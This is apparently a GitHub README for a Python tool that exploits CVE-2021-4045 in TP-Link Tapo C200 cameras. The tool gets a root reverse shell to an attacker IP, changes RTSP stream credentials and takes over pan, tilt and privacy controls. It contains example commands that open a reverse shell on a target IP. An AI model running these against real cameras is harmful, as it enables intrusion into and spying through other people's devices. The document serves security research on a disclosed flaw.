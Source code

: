 # Tapo C200 Control Script

![Tapo C200 Banner](images/control.png)

A powerful Python script to gain full control over TP-Link Tapo C200 IP cameras. This tool provides root access, RTSP credential modification, and complete camera control capabilities.

**⚠️ Disclaimer**: This project is for educational and security research purposes only. Use only on devices you own or have permission to test.

**CVE-2021-4045** is a remote code execution (RCE) vulnerability caused by command injection in the TP-Link Tapo c200 IP camera. Due to the bad input validation in *uhttpd*, a core component of the device, attackers are allowed to execute arbitrary commands. All firmware versions before **1.1.16 Build 211209 Rel. 37726N** are vulnerable. For a detailed analysis, refer to the full write-up by [@hacefresko](https://github.com/hacefresko/)  [here](https://github.com/hacefresko/CVE-2021-4045/).

## Key Features

- 🛠️ **Full Root Access**: Obtain a reverse shell with root privileges
- 🔑 **RTSP Control**: Modify video stream credentials
- 🎥 **Camera Control**:
  - Pan/tilt movement control
  - Privacy mode toggle (lens cover)
  - Preset position management (save/recall up to 8 positions)
  - Camera reboot and reset functions
- 📡 **Network Integration**: Easy setup for remote access

## Installation

1. Clone the repository:

  ```bash
  git clone https://github.com/yourusername/tapo-c200-control.git
  cd tapo-c200-control
  ```
2. Install required dependencies:

  ```bash
  pip install requests urllib3
  ```

## Usage
### Basic Command Structure
```bash
python3 tapocontrol.py -t <TARGET_IP> -a <ATTACKER_IP> -m <MODE> [OPTIONS]
```

### Modes of Operation
| Mode    | Description                        | Required Options     |
|---------|------------------------------------|----------------------|
| shell   | Get a reverse shell on the camera  | -p  (listening port) |
| rtsp    | Change RTSP stream credentials     | None                 |
| control | Interactive camera control console | None                 |

### Full Options
```text
Required Arguments:
  -t, --target         Tapo C200 IP address
  -a, --attacker       Your IP address for reverse shell callback
  -m, --mode           Operation mode (shell|rtsp|control)

Optional Arguments:
  -p, --revshell-port  Port for reverse shell (default: 1337)
  -v, --verbose        Enable verbose debugging output
```

## Examples
### Get a reverse shell:

```bash
python3 tapocontrol.py -t 192.168.1.100 -a 192.168.1.50 -m shell -p 4444
```

### Change RTSP credentials:

```bash
python3 tapocontrol.py -t 192.168.1.100 -a 192.168.1.50 -m rtsp
```

### Control camera movements:

```bash
python3 tapocontrol.py -t 192.168.1.100 -a 192.168.1.50 -m control
```

### Control Console Commands

Once in control mode, use these commands:

| Command           | Description                      |
|-------------------|----------------------------------|
| up [steps]        | Move camera up                   |
| down [steps]      | Move camera down                 |
| left [steps]      | Move camera left                 |
| right [steps]     | Move camera right                |
| stop              | Stop all movement                |
| preset_goto <1-8> | Recall saved preset position     |
| preset_set <1-8>  | Save current position as preset  |
| privacy_on        | Enable privacy mode (close lens) |
| privacy_off       | Disable privacy mode             |
| reboot            | Reboot the camera                |
| reset             | Reset camera to default position |
| exit              | Quit the control console         |

### Screenshots
#### Root shell access via reverse TCP connection
![Shell demo](images/shell.png)

#### Modifying RTSP stream credentials
![RTSP demo](images/rtsp.png)

#### Interactive camera control console
![Control mode demo](images/control.png)

## Security Notice
This script demonstrates security vulnerabilities in the Tapo C200 camera system. TP-Link has been notified about these issues.

### Important:

* Use only on devices you own
* Never deploy on networks without permission
* Understand that this may violate terms of service

### Author
[@TryH4ckM3](https://t.me/TryH4ckM3) - Security Researcher
